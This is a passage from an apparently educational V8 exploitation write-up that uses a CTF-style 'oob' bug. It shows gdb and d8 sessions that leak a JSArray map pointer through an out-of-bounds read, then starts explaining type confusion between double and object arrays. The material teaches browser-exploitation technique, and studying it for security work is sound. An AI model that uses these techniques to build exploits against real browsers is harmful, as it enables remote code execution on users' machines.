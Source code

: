 ```javascript
$ gdb d8 
gef➤  run --allow-natives-syntax --shell exploit.js
V8 version 7.5.0 (candidate)
d8> a = [1.5, 2.5]
[1.5, 2.5]
d8> a.oob()
2.28382032514e-310
```

Now we need to use our `ftoi()` function to convert it to a hexadecimal integer:

```javascript
d8> ftoi(a.oob()).toString(16)
"2a0a9af82ed9"
```

Note that `ftoi()` only exists because of the `--shell`, which is why we needed it.

If our reasoning is correct, this is a pointer to the map, which is located at `0x2a0a9af82ed9`. Let's compare with GDB tells us:

```javascript
d8> %DebugPrint(a)
0x2d83ee78e0b9 <JSArray[2]>
[1.5, 2.5]
d8> ^C
gef➤  x/4gx 0x2d83ee78e0b8
0x2d83ee78e0b8:	0x00002a0a9af82ed9	0x00000db811140c71
0x2d83ee78e0c8:	0x00002d83ee78e099	0x0000000200000000
```

The first value at the location of the `JSArray` is, as we saw earlier, the pointer to the map. Not only that, but we successfully read it! Look - it's `0x2a0a9af82ed9` again!

Now we know we can read and write to the map that the array uses. How do we go from here?

## Abusing Map Control

### Values vs Pointers

The important thing to note is that sometimes a program will store values (pass by value), and sometimes it will store a pointer to a value (pass by reference). We can abuse this functionality, because an array of doubles will store the double values themselves while an array of objects will store **pointers to the objects**.

This means there is an extra link in the chain - if we do `array[2]` on an array of doubles, V8 will go to the address in memory, read the value there, and return it. If we do `array[2]` on an array of objects, V8 will go to the address in memory, read the value there, go to **that** address in memory, and return the object placed there.

We can see this behaviour by defining two arrays, one of doubles and one of custom objects:

```javascript
var float_arr = [1.5, 2.5]
var obj1 = {a: 1, b: 2}
var obj2 = {a: 5, b: 10}
var obj_arr = [obj1, obj2]
```
